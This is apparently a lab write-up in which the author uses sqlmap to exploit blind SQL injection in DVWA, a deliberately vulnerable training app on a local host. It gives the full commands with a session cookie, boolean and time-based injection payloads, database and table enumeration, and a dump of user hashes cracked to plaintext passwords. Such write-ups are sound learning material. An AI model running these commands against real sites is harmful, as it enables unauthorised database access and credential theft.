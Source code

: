 # [Blind SQL Injection](http://localhost/vulnerabilities/sqli_blind/)

Being already very familiar with Blind SQL Injection and using it to 
exfiltrate information bit by bit by analyzing the response. I have 
written my own scripts in the past but decided to learn how to use some 
automated tooling. In this case `sqlmap`

`sqlmap -u "http://192.168.1.78/vulnerabilities/sqli_blind/?id=2&Submit=Submit#" --cookie="PHPSESSID=ga31evahqau62n6qp1vitpm5u7;security=low"`

This analyzes our target for vulnerabilities. And we get this:

> ---
> Parameter: id (GET)
>    Type: boolean-based blind
>    Title: AND boolean-based blind - WHERE or HAVING clause
>    Payload: id=2' AND 3933=3933 AND 'FayX'='FayX&Submit=Submit
>
>    Type: time-based blind
>    Title: MySQL >= 5.0.12 AND time-based blind
>    Payload: id=2' AND SLEEP(5) AND 'ViUQ'='ViUQ&Submit=Submit
> ---

So the `id` parameter is vulnerable. We can reveal database names using `--dbs`

`sqlmap -u "http://192.168.1.78/vulnerabilities/sqli_blind/?id=2&Submit=Submit#" --cookie="PHPSESSID=ga31evahqau62n6qp1vitpm5u7;security=low" --dbs`

> available databases [2]:
> [*] dvwa
> [*] information_schema

We can list all the tables in the database `dvwa`

`sqlmap -u "http://192.168.1.78/vulnerabilities/sqli_blind/?id=2&Submit=Submit#" --cookie="PHPSESSID=ga31evahqau62n6qp1vitpm5u7;security=low" -D dvwa --tables`

> Database: dvwa
> [2 tables]
> +-----------+
> | guestbook |
> | users     |
> +-----------+

We can list the columns in the `users` table.

`sqlmap -u "http://192.168.1.78/vulnerabilities/sqli_blind/?id=2&Submit=Submit#" --cookie="PHPSESSID=ga31evahqau62n6qp1vitpm5u7;security=low" -T users --columns`

> Table: users
> [8 columns]
> +--------------+-------------+
> | Column       | Type        |
> +--------------+-------------+
> | user         | varchar(15) |
> | avatar       | varchar(70) |
> | failed_login | int(3)      |
> | first_name   | varchar(15) |
> | last_login   | timestamp   |
> | last_name    | varchar(15) |
> | password     | varchar(32) |
> | user_id      | int(6)      |
> +--------------+-------------+

Finally we can dump all the usernames and passwords

`sqlmap -u "http://192.168.1.78/vulnerabilities/sqli_blind/?id=2&Submit=Submit#" --cookie="PHPSESSID=ga31evahqau62n6qp1vitpm5u7;security=low" -C user,password --dump`

`sqlmap` can even crack the hashes using a dictionary attack!

> +---------+---------------------------------------------+
> | user    | password                                    |
> +---------+---------------------------------------------+
> | 1337    | 8d3533d75ae2c3966d7e0d4fcc69216b (charley)  |
> | admin   | 5f4dcc3b5aa765d61d8327deb882cf99 (password) |
> | gordonb | e99a18c428cb38d5f260853678922e03 (abc123)   |
> | pablo   | 0d107d09f5bbe40cade3de5c71e9e9b7 (letmein)  |
> | smithy  | 5f4dcc3b5aa765d61d8327deb882cf99 (password) |
> +---------+---------------------------------------------+

How cool is that? Just goes to show how powerful some of these tools are although 
I am extremely glad that I know "how" the tool works instead of just running a tool 
and letting it do all the work!


